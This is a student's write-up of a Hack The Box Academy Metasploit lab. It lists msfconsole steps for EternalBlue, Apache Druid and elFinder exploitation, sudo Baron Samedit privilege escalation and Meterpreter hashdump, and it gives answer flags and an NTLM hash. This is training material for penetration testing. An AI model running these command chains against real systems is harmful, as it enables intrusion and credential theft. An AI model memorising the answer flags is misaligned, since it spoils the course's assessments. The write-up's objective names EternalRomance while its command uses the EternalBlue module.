


# HTB Academy Write-up: Using the Metasploit Framework

**Author:** OULGRISS ABDELLAH
**Date:** October 04, 2025
**Platform:** Hack The Box Academy  
**Module:** Using the Metasploit Framework

## Overview

This document details the methodology and results for the "Using the Metasploit Framework" module from Hack The Box Academy. The objective was to master the Metasploit Framework for penetration testing, covering exploit execution, payload delivery, session management, and post-exploitation techniques.

## Tools Used

- **Metasploit Framework** - Primary exploitation platform
- **Nmap** - Network scanning and service enumeration
- **Meterpreter** - Advanced post-exploitation payload


## Introduction to Metasploit Framework

### Core Concepts
- Open-source penetration testing framework written in Ruby
- Provides tools for vulnerability research, exploit development, and security testing
- Modular architecture with exploits, payloads, auxiliary modules, and post-exploitation tools

### Key Components
- **Metasploit Framework** - Free, community-driven version
- **Metasploit Pro** - Commercial version with GUI and advanced features

### Primary Use Cases
- Network enumeration and vulnerability scanning
- Exploit development and execution
- Payload delivery and shell access
- Post-exploitation and persistence
- Anti-forensics and evasion techniques


## Module 1: Basic Metasploit Usage

### Q1: Which version of Metasploit comes equipped with a GUI interface?
**Answer:** `metasploit pro`

### Q2: What command do you use to interact with the free version of Metasploit?
**Answer:** `msfconsole`


## Module 2: Exploitation with EternalRomance

### Objective: Exploit the target using EternalRomance and retrieve the flag from Administrator's desktop.

**Step 1: Launch Metasploit**
```bash
msfconsole
```


**Step 2: Search for EternalRomance Exploit**
```bash
search eternalromance
```


**Step 3: Select and Configure the Exploit**


```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <target_ip>
set LHOST <your_ip>
```


**Step 4: Execute the Exploit**
```bash
exploit
```

*Successfully established a shell session on the target system.*


**Step 5: Locate and Read the Flag**
```bash
# Navigate to Administrator's desktop
cd C:\\Users\\Administrator\\Desktop
dir
type flag.txt
```


**Flag:** `HTB{MSF-W1nD0w5-3xPL01t4t10n}`


## Module 3: Payloads and Stagers

### Understanding Payload Types

**Singles:** Self-contained payloads that don't require additional stages
- Example: `windows/shell_bind_tcp`

**Stagers:** Establish communication channel for larger payloads
- Example: `windows/shell/bind_tcp` (where `bind_tcp` is the stager)

**Stages:** Payload components downloaded after initial stager
- Example: Meterpreter shell components

### Naming Convention
- **Single:** `windows/shell_bind_tcp`
- **Staged:** `windows/shell/bind_tcp` (note the `/` separator)


## Module 4: Apache Druid Exploitation

### Objective: Identify and exploit vulnerable Apache Druid installation.

**Step 1: Service Enumeration**
```bash
nmap -sV -sC <target_ip>
```
*Discovered Apache Druid running on port 8081.*


**Step 2: Metasploit Exploitation**
```bash
msfconsole
search druid
use exploit/linux/http/apache_druid_js_exec
show options
set RHOSTS <target_ip>
set RPORT 8081
set LHOST <your_ip>
exploit
```


**Step 3: Retrieve the Flag**
*After successful exploitation, the flag was displayed in the session output.*


**Flag:** `HTB{MSF_Expl01t4t10n}`


## Module 5: Sessions & Jobs Management

### Key Concepts
- **Sessions:** Interactive connections to compromised systems
- **Jobs:** Background processes running exploits or handlers
- **Backgrounding:** Moving active sessions to background for multitasking

### Session Management Commands
```bash
sessions -l          # List all active sessions
sessions -i <id>     # Interact with specific session
background           # Move current session to background
jobs -l              # List all background jobs
```


## Module 6: elFinder Command Injection

### Objective: Identify web application and exploit command injection vulnerability.

**Step 1: Web Application Discovery**
*Accessed the target web server and examined HTML source code, identifying elFinder file manager.*

**Q1: What is the name of the web application found in the HTML source?**


**Answer:** `elFinder`


**Step 2: Metasploit Exploitation**
```bash
msfconsole
search elfinder
use exploit/linux/http/elfinder_archive_cmd_injection
show options
set RHOSTS <target_ip>
set LHOST <your_ip>
exploit
```





**Step 3: Verify Access and Identify User**


```bash
whoami
```

**Q2: What is the username of the user you obtained a shell with?**
**Answer:** `www-data`


## Module 7: Privilege Escalation via Sudo Vulnerability

### Objective: Escalate privileges using Sudo heap-based buffer overflow.

**Step 1: Background Current Session**
```bash
background
```

**Step 2: Search for Sudo Exploit**


```bash
search sudo heap
use exploit/linux/local/sudo_baron_samedit
show options
set SESSION <current_session_id>
exploit
```


**Step 3: Retrieve Root Flag**
```bash
# After successful privilege escalation
cd /root
cat flag.txt
```


**Flag:** `HTB{5e55ion5_4r3_sw33t}`


## Module 8: Meterpreter Advanced Post-Exploitation

### Meterpreter Features
- In-memory execution (fileless)
- DLL injection for stealth
- Extensive post-exploitation modules
- Persistence mechanisms
- AV/endpoint evasion capabilities

### Practical Exercise

**Q1: Find the existing exploit and get a shell. What username did you obtain?**
*Used appropriate exploit against target service.*


**Answer:** `nt authority\\system`

**Step 2: Hash Dumping**
```bash
# In Meterpreter session
hashdump
```


**Q2: Retrieve the NTLM password hash for the "htb-student" user.**
*Located the hash in the hashdump output.*

**Hash:** `cf3a5525ee9414229e66279623ed5c58`


### Exploitation Strategy
1. **Proper Enumeration:** Always conduct thorough service enumeration before exploitation
2. **Module Selection:** Choose appropriate exploits based on service versions and configurations
3. **Payload Configuration:** Select payloads based on target environment and detection requirements
4. **Session Management:** Effectively manage multiple sessions and background processes

### Metasploit Best Practices
- Always verify module options before execution
- Use appropriate payloads for the target environment
- Leverage Meterpreter for advanced post-exploitation
- Maintain organized session management during engagements
- Document all steps for reporting and knowledge retention

### Technical Skills Demonstrated
- Metasploit framework navigation and module usage
- Exploit configuration and payload delivery
- Session management and multitasking
- Privilege escalation techniques
- Post-exploitation and credential harvesting
- Web application exploitation
- Service-specific attack vectors


## Conclusion

This module provided comprehensive hands-on experience with the Metasploit Framework, from basic usage to advanced post-exploitation techniques. The skills demonstrated include vulnerability research, exploit execution, payload management, and systematic penetration testing methodology - all essential for professional cybersecurity roles.
